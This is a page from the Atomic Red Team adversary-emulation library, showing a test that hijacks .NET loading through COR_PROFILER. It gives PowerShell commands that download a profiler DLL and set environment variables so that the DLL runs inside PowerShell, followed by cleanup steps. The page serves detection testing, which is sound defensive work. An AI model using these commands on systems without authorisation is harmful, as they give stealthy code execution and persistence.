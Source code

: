 

#### Dependencies:  Run with `powershell`!
##### Description: "#{file_name}" must be present
##### Check Prereq Commands:
```powershell
if (Test-Path "#{file_name}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{file_name}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1574.012/bin/T1574.012x64.dll" -OutFile "#{file_name}"
```




<br/>
<br/>

## Atomic Test #3 - Registry-free process scope COR_PROFILER
Creates process scope environment variables to enable a .NET profiler (COR_PROFILER) without making changes to the registry. The unmanaged profiler DLL (`T1574.012x64.dll`) executes when the CLR is loaded by PowerShell.

Reference: https://redcanary.com/blog/cor_profiler-for-persistence/

**Supported Platforms:** Windows


**auto_generated_guid:** 79d57242-bbef-41db-b301-9d01d9f6e817





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_name | unamanged profiler DLL | path | PathToAtomicsFolder&#92;T1574.012&#92;bin&#92;T1574.012x64.dll|
| clsid_guid | custom clsid guid | string | {09108e71-974c-4010-89cb-acf471ae9e2c}|


#### Attack Commands: Run with `powershell`! 


```powershell
$env:COR_ENABLE_PROFILING = 1
$env:COR_PROFILER = '#{clsid_guid}'
$env:COR_PROFILER_PATH = '"#{file_name}"'
POWERSHELL -c 'Start-Sleep 1'
```

#### Cleanup Commands:
```powershell
$env:COR_ENABLE_PROFILING = 0
$env:COR_PROFILER = ''
$env:COR_PROFILER_PATH = ''
```

